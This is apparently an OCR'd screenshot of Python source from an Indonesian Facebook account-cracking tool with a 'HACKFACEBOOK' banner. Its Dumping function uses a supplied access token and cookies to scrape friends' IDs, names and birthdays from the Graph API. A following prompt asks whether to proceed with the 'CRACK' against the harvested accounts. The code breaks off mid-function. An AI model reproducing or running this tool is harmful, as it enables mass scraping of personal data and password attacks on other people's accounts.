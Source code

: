 

def ___Lucian_Putri_Adelia___():
	Hapus()
	DedeLuci_Punya_Ayah_LuciverXploit(f"""{H2}
 _____ _____ _____ _____ _____ _____ _____ _____ _____ _____ _____ _____ 
|  |  |  _  |     |  |  |   __|  _  |     |   __| __  |     |     |  |  | {P2}
|     |     |   --|    -|   __|     |   --|   __| __ -|  |  |  |  |    -|
|__|__|__|__|_____|__|__|__|  |__|__|_____|_____|_____|_____|_____|__|__|                                                                       
""") 



def Dumping(idt,fields,cookie,token):
	try:
		headers = {
			"connection": "keep-alive", 
			"accept": "*/*", 
			"sec-fetch-dest": "empty", 
			"sec-fetch-mode": "cors",
			"sec-fetch-site": "same-origin", 
			"sec-fetch-user": "?1",
			"sec-ch-ua-mobile": "?1",
			"upgrade-insecure-requests": "1", 
			"user-agent": "Mozilla/5.0 (Linux; Android 11; AC2003) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.104 Mobile Safari/537.36",
			"accept-encoding": "gzip, deflate",
			"accept-language": "id-ID,id;q=0.9"
		}
		if len(id) == 0:
			params = {
				"access_token": token,
				"fields": f"name,friends.fields(id,name,birthday)"
			}
		else:
			params = {
				"access_token": token,
				"fields": f"name,friends.fields(id,name,birthday).after({fields})"
			}
		url = ses.get(f"https://graph.facebook.com/{idt}",params=params,headers=headers,cookies=cookie).json()
		for i in url["friends"]["data"]:
			id.append(i["id"]+"|"+i["name"])
			sys.stdout.write(f"\r                     {P}UID SEDANG DI KUMPULKAN {H}{len(id)}{P}{P}"),
			sys.stdout.flush()
		Dumping(idt,url["friends"]["paging"]["cursors"]["after"],cookie,token)
	except:pass          




def Setting_Dulu():
	for cape_euy in id:
		id2.insert(0,cape_euy)
	print('')
	DedeLuci_Punya_Ayah_LuciverXploit(f'     {P2}  APAKAH KAMU INGIN MELANJUTKA {H2}CRACK {P2}ATAU {M2}TIDAK{P2}? [{H2}Y{P2}/{M2}T{P2}]')
	____hinaan_Sia_Motivasi____ = console.input(f'                           {P2}TULIS : ')
	if ____hinaan_Sia_Motivasi____ in ['Y','y']:
		LuciverXnxx.append('async')
		print('')
	elif ____hinaan_Sia_Motivasi____ in ['']:
		DedeLuci_Punya_Ayah_LuciverXploit(f'{K} [{P}•{K}]{P} Pilih Yang Bener😡 ')
		Setting_Dulu()
	else: